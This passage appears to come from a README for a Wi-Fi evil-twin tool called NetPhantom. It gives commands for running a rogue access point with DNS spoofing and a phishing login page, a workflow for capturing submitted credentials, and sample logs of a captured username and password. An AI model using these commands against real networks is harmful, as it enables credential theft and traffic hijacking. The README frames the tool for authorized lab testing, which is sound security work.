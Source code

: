   ```json
      }
    ],
    "timestamp": "2025-05-15 14:00:06"
  }
  ```
- **Tips**: Use **WordForge** to generate phishing page payloads.

#### DNS Spoofing
- **Purpose**: Redirect traffic to malicious IPs.
- **Usage**:
  ```bash
  sudo python3 netphantom.py -i wlan0 -s MyAP -p login.html --dns-spoof
  ```
- **Output**:
  ```
  2025-05-15 14:00:03 - INFO - Starting fake DNS server
  ```
- **Tips**: Combine with **DNSTwist** for advanced DNS spoofing.

#### Quiet Mode
- **Purpose**: Reduce terminal output.
- **Usage**:
  ```bash
  sudo python3 netphantom.py -i wlan0 -s MyAP -p login.html -q
  ```
- **Tips**: Monitor `netphantom.log` with `tail -f netphantom.log`.

### Workflow
1. Set up lab (VM with Wi-Fi adapter in monitor mode).
2. Install dependencies:
   ```bash
   ./setup_netphantom.sh
   ```
3. Create `login.html` phishing page.
4. Run NetPhantom:
   ```bash
   sudo python3 netphantom.py -i wlan0 -s MyAP -p login.html --dns-spoof
   ```
5. Connect a test device to `MyAP`; submit credentials.
6. Check logs (`netphantom.log`) and results (`netphantom-output/`).
7. Stop with `Ctrl+C`; secure outputs (`rm -rf netphantom-output/*`).

## Output
- **Logs**: `netphantom.log`, e.g.:
  ```
  2025-05-15 14:00:00 - INFO - Starting NetPhantom with SSID: MyAP
  2025-05-15 14:00:05 - INFO - Credential captured: username=test&password=secret
  ```
- **Results**: `netphantom-output/phantom_<ssid>_<timestamp>.txt` and `.json`.
- **Database**: `netphantom-output/netphantom.db` (SQLite).

## Notes
- **Environment**: Use on authorized networks in your lab.
- **Impact**: Fake APs may disrupt networks; test with caution.
- **Ethics**: Avoid unauthorized use to prevent legal/security issues.
- **Dependencies**: Requires `scapy`, `dnspython`, `hostapd`, `dnsmasq`, `aircrack-ng`.
- **Root**: Requires `sudo` for monitor mode and server operations.
